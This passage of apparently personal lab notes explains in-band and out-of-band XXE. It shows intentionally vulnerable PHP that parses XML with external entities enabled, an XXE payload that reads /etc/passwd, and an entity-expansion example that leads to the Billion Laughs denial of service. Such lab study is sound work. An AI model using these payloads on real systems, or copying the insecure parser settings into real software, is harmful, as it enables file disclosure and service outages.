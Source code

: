 In-band XXE refers to an XXE vulnerability where the attacker can see the response from the server. This allows for straightforward data exfiltration and exploitation. The attacker can simply send a malicious XML payload to the application, and the server will respond with the extracted data or the result of the attack.

Out-of-band XXE, on the other hand, refers to an XXE vulnerability where the attacker cannot see the response from the server. This requires using alternative channels, such as DNS or HTTP requests, to exfiltrate data. To extract the data, the attacker must craft a malicious XML payload that will trigger an out-of-band request, such as a DNS query or an HTTP request.

![](Pasted%20image%2020241219092513.png)

Click the submit button and intercept the request.
	![](Pasted%20image%2020241219092532.png)

The submitted data is processed by contact_submit.php, which contains a vulnerable PHP code designed to return the value of the name parameter when a user submits a message in the form. Below is the vulnerable code:

```php
libxml_disable_entity_loader(false);

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $xmlData = file_get_contents('php://input');

    $doc = new DOMDocument();
    $doc->loadXML($xmlData, LIBXML_NOENT | LIBXML_DTDLOAD); 

    $expandedContent = $doc->getElementsByTagName('name')[0]->textContent;

    echo "Thank you, " .$expandedContent . "! Your message has been received.";
}
```

Since the application returns the value of the name parameter, we can inject an entity that is pointing to `/etc/passwd` to disclose its values.

```shell
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
	<name>
		&xxe;
	</name>
	<email>
		test@test.com
	</email>
	<message>
		test
	</message>
</contact>
```

Using the payload above, replace the initial XML data submitted to contact_submit.php and resend the request.
	![](Pasted%20image%2020241219092711.png)

## XML Entity Expansion
XML Entity Expansion is a technique often used in XXE attacks that involves defining entities within an XML document, which the XML parser then expands. Attackers can abuse this feature by creating recursive or excessively large entities, leading to a Denial of Service (DoS) attack or defining external entities referencing sensitive files or services. This method is central to both in-band and out-of-band XXE, as it allows attackers to inject malicious entities into the XML data. For example:

```shell
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY xxe "This is a test message" >]>
<contact>
	<name>
		&xxe; &xxe;
	</name>
	<email>
		test@test.com
	</email>
	<message>
		test
	</message>
</contact>
```

In the payload above, `&xxe;` is expanded wherever it appears. Attackers can use entity expansion to perform a Billion Laughs attack, where a small XML document recursively expands to consume server resources, leading to a denial of service.
	![](Pasted%20image%2020241219092835.png)
